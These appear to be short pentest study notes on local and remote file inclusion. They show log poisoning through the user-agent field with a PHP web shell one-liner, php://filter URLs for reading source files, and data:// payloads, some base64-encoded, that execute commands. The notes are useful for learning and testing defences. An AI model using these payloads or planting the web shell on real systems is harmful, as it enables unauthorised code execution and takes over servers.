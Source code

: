 
we can use directory traversal vulnerabilities to obtain the contents of a file outside of the web server's web root. _File inclusion_ vulnerabilities allow us to "include" a file in the application's running code. This means we can use file inclusion vulnerabilities to execute local or remote files, while directory traversal only allows us to read the contents of a file.

It can give us opportunity to obtain remote code execution.

for e.g.:
we are able to log user input in access log in user-agent field.

we can add php rce in it and try to load file
<?php echo system($_GET['cmd']); ?>

after this we can try to retrieve reverse shell by running the command by passing the reverse shell command in cmd params.


Note: if you want to read php executable file content we can also use php wrappers like php://filter

example reading admin.php
`/index.php?page=php://filter/resource=admin.php` will print plain text
`/index.php?page=php://filter/convert.base64-encode/resource=admin.txt` will give base64 of page content


we can use data:// to execute
example:
`/page=data://text/plain,<?php%20echo%20system('ls');?>` will execute ls
`/page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls` this will execute ls with base64 encoding
